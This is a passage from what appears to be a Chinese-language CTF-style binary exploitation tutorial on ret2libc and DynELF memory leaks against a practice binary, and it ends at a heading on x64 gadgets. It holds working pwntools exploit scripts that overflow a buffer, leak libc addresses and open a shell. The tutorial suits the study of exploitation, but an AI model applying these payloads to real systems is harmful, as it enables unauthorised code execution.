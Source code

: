 ```python
binsh_addr = write_addr - (libc.symbols['write'] - next(libc.search('/bin/sh')))
print 'binsh_addr= ' + hex(binsh_addr)
# 第二次溢出，进行程序流劫持
payload2 = 'A'*140  + p32(system_addr) + p32(vulfun_addr) + p32(binsh_addr)
print "\n###sending payload2 ...###"
p.send(payload2)
# 开启交互式shell
p.interactive()
```
# 6. 无目标服务器so库
## 6.1. Memory Leak & DynELF
在获取不到目标服务器上的libc.so的情况下，需要通过Memory Leak（内存泄露）来搜索内存寻找`system`函数的地址，pwntools提供了DynELF模块来进行内存搜索（具体实现见EXP）。由于DynELF模块不能够搜索字符串，另外再通过`read`函数将`/bin/sh`字符串写入到程序的.bss段（用于保存全局变量，地址固定，并且可以读可写，通过`readelf -S level2`可以获取到bss段的地址）。在执行完`read`函数之后，接着调用`system("/bin/sh")`。由于`read`函数有三个参数，所以我们需要一个`pop pop pop ret`的gadget用来保证栈平衡（用`objdump -d level2`即可找到）。
## 6.2. EXP
```python
# encoding:utf-8
from pwn import *
# 读取文件
elf = ELF('./level2')
plt_write = elf.symbols['write']
plt_read = elf.symbols['read']
vulfun_addr = 0x8049172
# 泄露函数
def leak(address):
    payload1 = 'a'*140 + p32(plt_write) + p32(vulfun_addr) + p32(1) +p32(address) + p32(4)
    p.send(payload1)
    data = p.recv(4)
    print "%#x => %s" % (address, (data or '').encode('hex'))
    return data
# 启动程序
p = process('./level2')
# 获取函数地址
d = DynELF(leak, elf=ELF('./level2'))
system_addr = d.lookup('system', 'libc')
print "system_addr=" + hex(system_addr)
# 另外两个地址，bss段和pop pop pop ret的gadget的地址
bss_addr = 0x804c020
pppr = 0x8049269
payload2 = 'a'*140  + p32(plt_read) + p32(pppr) + p32(0) + p32(bss_addr) + p32(8)
# 这里插入一个write函数刷新缓冲区
payload2 += p32(plt_write) + p32(pppr) + p32(1) + p32(bss_addr) + p32(8)
payload2 += p32(system_addr) + p32(vulfun_addr) + p32(bss_addr)
print "\n###sending payload2 ...###"
p.send(payload2)
p.send("/bin/sh\0")
p.interactive()
```
# 7. x64
## 7.1. x64与x86的区别
* 内存地址范围由32位变成了64位，但是可以使用的内存地址不能大于0x00007fffffffffff，否则会抛出异常
* 函数参数的传递方式发生了改变，x86中参数都是保存在栈上,但在x64中的前六个参数依次保存在RDI, RSI, RDX, RCX, R8和 R9中，如果还有更多的参数的话才会保存在栈上
# 8. 通用gadgets